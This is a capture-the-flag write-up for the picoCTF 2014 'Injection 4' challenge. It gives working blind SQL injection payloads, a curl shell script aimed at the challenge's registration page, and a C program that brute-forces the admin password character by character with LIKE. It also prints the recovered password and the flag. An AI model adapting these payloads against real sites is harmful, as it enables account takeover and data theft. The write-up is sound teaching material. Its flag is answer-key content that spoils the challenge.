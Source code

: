 Zach: Injection 4 (150 pts)
    
So by just quick inspection of the login script, it’s really clear that everything is SQL escaped, and so there are no real hacks available. Now with the registration feature, my first thought was a hack I’ve done before based on registering a user with the username admin followed by spaces past the varchar max length in the database, with a trailing character. This will be added to the database as just admin, with the password I instituted at registration. It will collide with the original admin on the database. However, if the user doesn’t exist, it echo’s that registration is disabled, so this is impossible.

So since there is no way to hack into the login script, it looks like we need to try and brute force the password. This can be done easily with the registration script because it’s not escaped. We can inject a query that instead of checking for a username, it will check for a password for the user admin, and the page will respond with “Someone has already registered {username}” if it finds one or more matches. This would look like the following in the username field:
    `admin’ AND password=’{PASSWORD_GUESS}’ OR ‘1’=’2`

Of course, brute forcing this would take ages, but thankfully, SQL has a LIKE operator. This looks like the following:
    `admin’ AND password LIKE ‘{FRONT_OF_PASS}%” OR ‘1’=’2`

In this operator, the % sign matches any number of characters in it’s place. This allows us to brute force every possible first character until we find the right one. Then every second character, and etc. until we have the whole password to login with. I used curl in a shell script to do this. Then I called the shell script with a C code that did the iteration of different password. Both codes are included below:
    

test_pass.sh:
```
#!/bin/bash
if [[ "$(curl -s -F "username=admin' AND password LIKE '$1%' OR '1'='2" http://web2014.picoctf.com/injection4/register.php)" =~ "Someone" ]]; then
	exit 1;
else
	exit 0;
fi
```

get_pass.c:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char* format = "./test_pass.sh '%s'";

int main() {
        char pass[1024], cmd[1080], *p = pass;
        int complete;
        while(1) {
                complete = 0;
                *p = 32;
                *(p+1) = '\0';
                do {
                        if(*p == '%' || *p == '\'') ++(*p);
                        sprintf(cmd, format, pass);
                        //printf("%s, %s, %d, %d\n", cmd, pass, *p, pass[p-pass]);
                        if( system(cmd) ) {
                                complete = 1;
                                break;
                        }

                } while (++(*p) > 0);
                if(complete) {
                        printf("\"%s\"\n", pass);
                } else {
                        printf("Finished.\n");
                        *p = '\0';
                        break;
                }
                ++p;
        }
        return 0;
}
```

The shellcode checks the output of curl to be approximately equal (=~) to “Someone”. If this is true, it exits with 1, else with 0. The c code creates space for the password and the cmd to execute on the shell, with enough room for 1023 characters (one extra byte for the null terminating character). Then, the pointer in the password char[] is iterated through all possible characters until one matches, and then goes to the next character. After no more characters will match, the password has been found and the code terminates. Because it takes some time, the code outputs it’s progress every time a new character is determined. The characters ‘\’’ and ‘%’ are excluded because % has special meaning for SQL (discussed above), and the single quote would terminate the string.

The password obtained from this script: `YOULLNEVERGUESSTHISPASSWORD`

If you login to the site as admin with that password, you receive:
    `whereof_one_cannot_speak_thereof_one_must_be_silent`
